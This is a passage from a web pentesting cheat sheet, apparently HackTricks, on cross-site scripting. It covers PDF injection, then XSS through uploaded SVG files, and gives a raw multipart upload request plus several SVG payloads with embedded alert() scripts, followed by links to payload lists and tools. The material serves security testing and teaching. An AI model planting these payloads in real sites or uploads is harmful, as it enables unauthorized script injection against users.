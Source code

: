 If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/pdf-injection.md

##### XSS uploading files (svg)

Upload as an image a file like the following one (from http://ghostlulz.com/xss-svg/):

```
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

#### XSS resources

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS injection)
[http://www.xss-payloads.com](http://www.xss-payloads.com/) https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt https://github.com/materaj/xss-list https://github.com/ismailtasdelen/xss-payload-list https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec
https://netsec.expert/2020/02/01/xss-in-2020.html

##### XSS TOOLS

Find some [**tools for XSS here**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/xss-tools.md)**.**

## Search functionalities
